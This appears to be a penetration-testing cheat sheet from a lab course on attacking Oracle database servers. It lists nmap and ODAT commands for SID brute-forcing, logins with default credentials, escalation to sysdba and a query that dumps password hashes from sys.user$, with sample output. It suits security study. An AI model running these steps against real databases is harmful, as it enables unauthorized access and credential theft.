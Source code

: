 # Oracle Database Server

## Common Attack Paths

### Enumeration
- [ ] Banner grab → `nmap -p1521 --script=oracle* <target>`
- [ ] SID brute force → `odat sidguesser -s <target>`
- [ ] Login test with `sqlplus user/pass@host:1521/sid`

### Attack Paths
- Default creds (scott/tiger, system/manager, etc.)
- SID brute force → unauthorized DB access
- Abuse PUBLIC role grants
- DB links → pivot to other databases

### Auxiliary Notes
- Oracle client tools may be needed for full access.
- Good chance of finding plaintext creds inside DB tables.
- In labs, weak/default accounts are common footholds.

---

## General Enumeration

*Common Commands:*

`sudo nmap -p1521 -sV 10.129.204.235 --open`

*SSID Brute Force:*

`$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

*ODAT:*

`./odat.py all -s 10.129.204.235`

### SQLplus:

`$ sqlplus scott/tiger@10.129.204.235/XE`

>If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

`$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

*Example:*
```bash
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE`

SQL> select * from user_role_privs;
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

*Oracle RDBMS - Database Enumeration*

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```


*Oracle RDBMS - Extract Password Hashes:*

```bash
SQL> select name, password from sys.user$;
NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```
